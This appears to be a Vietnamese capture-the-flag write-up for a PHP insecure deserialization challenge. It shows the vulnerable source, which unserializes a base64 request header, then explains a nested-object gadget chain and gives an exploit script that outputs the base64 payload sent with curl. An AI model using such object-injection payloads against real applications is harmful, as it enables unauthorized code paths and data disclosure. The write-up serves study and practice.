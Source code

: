 # Insecure deserialization

## Source

```
<?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}

?>
```

## Solution

Nhìn vào source code ta có thể thấy để lấy được flag :
- Cần truyền vào tham số cleanup với giá trị là flag , tuy nhiên nó sẽ bị hàm **__consturct()** chặn lại và in ra 'NO' bởi hàm die().
- Trong trường hợp vượt qua được hàm **__construct()** phía trên ta cần có printflag=true để có thể in ra flag và để gán lại giá trị true cho biến này ta cần gọi đến hàm **__toString()** trong hàm Y.

Để thỏa mãn tất cả, ý tưởng sẽ là:
- Gọi hàm **__toString()** trong func Y, để gọi được hàm này ta cần khởi tạo payload với hai func Y lồng nhau.
```
$exploit = new Y(new Y('flag'));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";s:4:"flag";}}  
```
Ở đây ta sẽ giả sử truyền vào func Y biến 'flag' , func Y đầu tiên sẽ gọi đến hàm **__wakeup()** , sau đó func Y lồng vào tiếp theo sẽ gọi đến hàm **__toString()** để gán $printflag=true .

- Việc tiếp theo sẽ là lồng vào func X với tham số 'flag' được truyền vào.
```
$exploit = new Y(new Y(new X('flag')));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}}
```
Việc lồng ghép này sẽ khiến hàm X gặp lỗi và gọi đến **__destruct()** mà bỏ qua hàm **__construct()** , điều này dẫn đến việc hai lệnh if được thực hiện và in ra đông thời 'No!' và flag.

Exploit.php

```
<?php
class X{
	function __construct($cleanup){
    	$this->cleanup = $cleanup;
        }
}

class Y{
	function __construct($secret){
    	$this->secret = $secret;
    }
}
$exploit = new Y(new Y (new X('flag')));

echo base64_encode(serialize($exploit));
?>
// TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJYIjoxOntzOjc6ImNsZWFudXAiO3M6NDoiZmxhZyI7fX19

```

Cuối cùng ta sẽ gửi lên header X_PAYLOAD bao gồm mã base64 exploit phía trên , có nhiều cách để thực hiện công việc này ở đây mk dùng curl .

Result:

![img](img/img7.png)

Nhìn vào kết quả ta có thể thấy 'flag' in ra chứng tỏ **__wakeup()** được gọi , 'No!' và flag được in ra chứng tỏ hàm **__destruct()** được thực thi ...




